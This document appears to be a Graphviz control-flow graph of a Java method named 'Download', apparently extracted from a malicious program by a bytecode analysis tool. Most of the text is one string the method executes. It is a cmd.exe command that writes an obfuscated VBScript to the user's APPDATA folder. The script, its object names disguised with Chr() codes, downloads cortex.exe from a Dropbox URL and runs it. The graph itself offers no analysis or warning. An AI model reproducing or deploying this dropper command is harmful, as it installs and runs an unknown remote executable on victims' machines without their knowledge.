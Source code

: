 digraph "" {
    "r0 := @this: Download"
    "push \"cmd.exe /c echo ConST vlqw=1:coNSt vivi=2:DIM vgxi:::set vgxi=CrEatEObJeCt(CHR(65)^&chr(68)^&CHr(79)^&cHr(68)^&CHR(66)^&chR(46)^&chR(83)^&chr(116)^&ChR(114)^&CHr(101)^&Chr(97)^&cHr(109)):::vgxi.TyPe=vlqw::vgxi.OpeN:::vgxi.WRiTe vivw(WScRipT.arGumeNTS(0))::FunCTIoN vivw(vgji):DiM vrog:sET vrog=CReATeobJEct(Chr(87)^&chR(105)^&Chr(110)^&cHR(72)^&Chr(116)^&CHr(116)^&chR(112)^&cHr(46)^&ChR(87)^&cHr(105)^&Chr(110)^&Chr(72)^&cHr(116)^&cHR(116)^&cHr(112)^&chR(82)^&CHr(101)^&Chr(113)^&ChR(117)^&cHr(101)^&Chr(115)^&chr(116)^&cHR(46)^&Chr(53)^&ChR(46)^&cHr(49))::vrog.OPeN Chr(71)^&chR(69)^&chR(84),vgji,FaLse:vrog.sEnd::vivw=vrog.RESpoNsEbOdY::End fuNCTION::vgxi.sAvEtOfile WSCript.argUmENtS(1),vivi:::Set SHEll=cReatEobjEct(CHR(87)^&cHr(83)^&Chr(99)^&Chr(114)^&chr(105)^&Chr(112)^&ChR(116)^&CHR(46)^&CHR(83)^&chr(104)^&CHr(101)^&cHr(108)^&Chr(108))::SHEll.rUn CHR(99)^&CHr(111)^&cHR(114)^&chr(116)^&cHR(101)^&cHr(120)^&CHR(46)^&CHr(101)^&cHr(120)^&CHr(101) > \\\"%1$s\\\"\\cortex.vbs & cd \\\"%1$s\\\" & start cortex.vbs http://dl.dropbox.com/s/sxjnoh2zzh7nay2/cortex.exe cortex.exe\""
    "r0 := @this: Download"->"push \"cmd.exe /c echo ConST vlqw=1:coNSt vivi=2:DIM vgxi:::set vgxi=CrEatEObJeCt(CHR(65)^&chr(68)^&CHr(79)^&cHr(68)^&CHR(66)^&chR(46)^&chR(83)^&chr(116)^&ChR(114)^&CHr(101)^&Chr(97)^&cHr(109)):::vgxi.TyPe=vlqw::vgxi.OpeN:::vgxi.WRiTe vivw(WScRipT.arGumeNTS(0))::FunCTIoN vivw(vgji):DiM vrog:sET vrog=CReATeobJEct(Chr(87)^&chR(105)^&Chr(110)^&cHR(72)^&Chr(116)^&CHr(116)^&chR(112)^&cHr(46)^&ChR(87)^&cHr(105)^&Chr(110)^&Chr(72)^&cHr(116)^&cHR(116)^&cHr(112)^&chR(82)^&CHr(101)^&Chr(113)^&ChR(117)^&cHr(101)^&Chr(115)^&chr(116)^&cHR(46)^&Chr(53)^&ChR(46)^&cHr(49))::vrog.OPeN Chr(71)^&chR(69)^&chR(84),vgji,FaLse:vrog.sEnd::vivw=vrog.RESpoNsEbOdY::End fuNCTION::vgxi.sAvEtOfile WSCript.argUmENtS(1),vivi:::Set SHEll=cReatEobjEct(CHR(87)^&cHr(83)^&Chr(99)^&Chr(114)^&chr(105)^&Chr(112)^&ChR(116)^&CHR(46)^&CHR(83)^&chr(104)^&CHr(101)^&cHr(108)^&Chr(108))::SHEll.rUn CHR(99)^&CHr(111)^&cHR(114)^&chr(116)^&cHR(101)^&cHr(120)^&CHR(46)^&CHr(101)^&cHr(120)^&CHr(101) > \\\"%1$s\\\"\\cortex.vbs & cd \\\"%1$s\\\" & start cortex.vbs http://dl.dropbox.com/s/sxjnoh2zzh7nay2/cortex.exe cortex.exe\"";
    "push 1"
    "push \"cmd.exe /c echo ConST vlqw=1:coNSt vivi=2:DIM vgxi:::set vgxi=CrEatEObJeCt(CHR(65)^&chr(68)^&CHr(79)^&cHr(68)^&CHR(66)^&chR(46)^&chR(83)^&chr(116)^&ChR(114)^&CHr(101)^&Chr(97)^&cHr(109)):::vgxi.TyPe=vlqw::vgxi.OpeN:::vgxi.WRiTe vivw(WScRipT.arGumeNTS(0))::FunCTIoN vivw(vgji):DiM vrog:sET vrog=CReATeobJEct(Chr(87)^&chR(105)^&Chr(110)^&cHR(72)^&Chr(116)^&CHr(116)^&chR(112)^&cHr(46)^&ChR(87)^&cHr(105)^&Chr(110)^&Chr(72)^&cHr(116)^&cHR(116)^&cHr(112)^&chR(82)^&CHr(101)^&Chr(113)^&ChR(117)^&cHr(101)^&Chr(115)^&chr(116)^&cHR(46)^&Chr(53)^&ChR(46)^&cHr(49))::vrog.OPeN Chr(71)^&chR(69)^&chR(84),vgji,FaLse:vrog.sEnd::vivw=vrog.RESpoNsEbOdY::End fuNCTION::vgxi.sAvEtOfile WSCript.argUmENtS(1),vivi:::Set SHEll=cReatEobjEct(CHR(87)^&cHr(83)^&Chr(99)^&Chr(114)^&chr(105)^&Chr(112)^&ChR(116)^&CHR(46)^&CHR(83)^&chr(104)^&CHr(101)^&cHr(108)^&Chr(108))::SHEll.rUn CHR(99)^&CHr(111)^&cHR(114)^&chr(116)^&cHR(101)^&cHr(120)^&CHR(46)^&CHr(101)^&cHr(120)^&CHr(101) > \\\"%1$s\\\"\\cortex.vbs & cd \\\"%1$s\\\" & start cortex.vbs http://dl.dropbox.com/s/sxjnoh2zzh7nay2/cortex.exe cortex.exe\""->"push 1";
    "newarray"
    "push 1"->"newarray";
    "dup1.r"
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "push \"APPDATA\""
    "push 0"->"push \"APPDATA\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"APPDATA\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "arraywrite.r"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"arraywrite.r";
    "staticinvoke <java.lang.String: java.lang.String format(java.lang.String,java.lang.Object[])>"
    "arraywrite.r"->"staticinvoke <java.lang.String: java.lang.String format(java.lang.String,java.lang.Object[])>";
    "store.r r0"
    "staticinvoke <java.lang.String: java.lang.String format(java.lang.String,java.lang.Object[])>"->"store.r r0";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "store.r r0"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "load.r r0"
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r0";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r0"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
}
